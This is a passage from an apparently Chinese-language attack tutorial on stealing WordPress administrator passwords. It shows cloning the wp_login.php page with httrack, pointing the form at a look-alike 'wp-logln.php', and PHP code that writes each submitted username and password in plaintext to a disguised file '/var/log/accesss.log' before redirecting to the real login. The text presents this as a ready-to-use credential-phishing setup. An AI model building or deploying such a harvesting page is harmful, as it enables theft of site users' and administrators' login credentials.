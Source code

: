 2.使用 httrack 工具克隆 wp\_login.php 前端页面  
[GitHub - xroche/httrack: HTTrack Website Copier, copy websites to your computer (Official repository)](https://github.com/xroche/httrack)  
对表单部分进行修改 在表单后插入代码进行明文密码劫持

```bash
<form name="loginform" id="loginform" action="wp-logln.php" method="post">
  <p>
    <label for="user_login">用户名或电子邮件地址

      <input type="text" name="log" id="user_login" class="input" value="" size="20" /></label>
  </p>
  <p>
    <label for="user_pass">密码

      <input type="password" name="pwd" id="user_pass" class="input" value="" size="20" /></label>
  </p>
  <p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"  /> 记住我</label></p>
  <p class="submit">
    <input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="登录" />
    <input type="hidden" name="redirect_to" value="http://localhost/wp-admin/" />
    <input type="hidden" name="testcookie" value="1" />
  </p>
</form>
```

```bash
<?php
setcookie('redirected','1');
$u=$_POST['log'];
$p=$_POST['pwd'];
if(isset($_POST['log']) && isset($_POST['pwd'])){
    file_put_contents('/var/log/accesss.log',$u.$p);
    session_start();
    $_SESSION['redirected'] = false;
    header('Location: /admin');
}
?>
```

当正常访问登录页面时 就会被重定向到钓鱼页面  
输入账号密码后将重定向到真实登录页面 此时账号密码已被记录  